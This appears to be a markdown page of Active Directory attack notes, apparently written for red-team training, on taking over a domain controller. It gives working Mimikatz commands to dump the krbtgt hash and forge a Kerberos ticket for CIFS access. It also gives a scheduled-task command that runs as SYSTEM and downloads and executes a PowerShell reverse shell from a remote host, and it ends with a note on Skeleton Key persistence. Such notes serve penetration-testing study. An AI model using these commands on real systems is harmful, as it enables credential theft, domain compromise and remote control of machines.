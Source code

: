 List of SPN's : https://adsecurity.org/?page_id=183

## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Get a Powershell session as a **"domain admin"** using **"Over pass the hash"** attack
- [x] 2. Create a **New-PSSession** attaching to the **"domain controller"**
- [x] 3. Enter the new session using **Enter-PSSession** 
- [x] 4. Bypass the *AMSI* 
- [x] 5. Exit
- [x] 6. Load **Mimikatz.ps1** on the new session using **Invoke-command**
- [x] 7. Enter the new session using **Enter-PSSession** *again*
- [x] 8. Now we can execute mimikatz on the DC
- [x] 9. Keep note of **krbtgt** hash
- [x] 10. Request access for service of DC using the rc4 hash
- [x] 11. Schedule and execute a task

## <span style="color:lightgreen">Invoke-Mimikatz</span>
### <span style="color:#F1C232">1. Execute mimikatz on DC as DA to get krbtgt hash</span>
 
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

### <span style="color:#F1C232">2. Using hash of the Domain Controller computer account, below command provides access to shares on the DC</span>
 
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:star-dc /sid:admin-sid-here /target:star-dc /service:CIFS /rc4:rc4-hash-here /user:Administrator /ptt"'
```

### <span style="color:#F1C232">3. Schedule and execute a task</span>
```powershell
schtasks /create /S star-dc /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://10.10.10.10:8080/Invoke-PowerShellTcp.psi''')'"

schtasks /Run /S star-dc /TN "STCheck"
```

> For accessing WMI, we have to create two tickets: one for HOST service and another for RPCSS
{: .prompt-warning }


# <span style="color:lightblue">Skeleton Key</span>

* Skeleton key is a persistence technique where it is possible to patch a Domain Controller (Lsass process) so that it allows access as any user with a single password.
* The attack was discovered by Dell Secureworks used in a malware named the Skeleton Key malware.
* All the publicly known methods are **NOT persistent across reboots**.
